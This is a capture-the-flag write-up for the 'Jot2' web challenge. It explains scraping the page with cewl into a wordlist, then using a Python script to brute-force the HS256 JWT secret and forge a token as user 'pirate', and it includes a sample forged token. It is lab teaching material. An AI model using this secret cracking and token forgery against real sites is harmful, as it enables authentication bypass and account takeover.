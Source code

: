 # Jot2

Going to the page will greet us a page with a __small__ piece of text left by `Cap'n Cannonball Cewl`.
You should also notice that you're supposed to escape with the captain if you are able to prove your worth, however upon clicking on it you will get a forbidden message.

Not suprisingly we have to somehow gain access to this page.
Checking our cookies makes us see we have a JWT token which possibly decides what type of access we have.

Attempting to decode this token shows us that we currently have the username of `Space Swab`, so we most likely have to change this to something with more access. 
We can also notice that the alg used is HS256, so the key used to encrypt this token can also be used to decrypt this token. If we find this secret key we can forge our own tokens. 

Putting the singature of Cap'n Cannonball `Cewl` together with us possibly having to find a secret key/word, as well as the massive amounts of words on the page, we can conclude with that the page possibly contains the secret key somewhere, we just have to find the correct one. 

Pulling all the words down from the page can be done with the tool named `cewl`, for example like this:

`cewl http://jot2.tghack.no:1337/ > wordlist`

Doing this gives us a wordlist which we can use to guess the JWT token, and hopefully find a match which will allow us to decode the token without errors. By getting a success we know we hav ethe correct key, and can then use this key to forge our own token. Following the previous task we can here also set our username to `pirate` in order to prove our worth. Doing this should give us access to escape with the captain.  

Python script to solve the challenge after pulling down the words from the page:

```python3

import jwt
token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpYXQiOjE2MTQzNDY1NDN9.Rvx97AHCxaEAklGkZOAQINtlVMHAo0P4XPSTaT19XWo"
keys = []

# CeWL the page to get this wordlist
with open('wordlist') as f:
    keys = f.readlines()

keys = [x.strip() for x in keys]

for key in keys:
    try:
        jwt.decode(token,key)
        print(f'Found key: {key}')
        payload = {"username":"pirate","iat":1614345273}
        new_token = jwt.encode(payload,key,algorithm="HS256")
        print(new_token)
    except:
        pass
```

Example working token:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InBpcmF0ZSIsImlhdCI6MTYxNDM0NTI3M30.WyYyO4NOldpPZk2cv7GJfgsMfQCUb_FStAiRlfuueWw`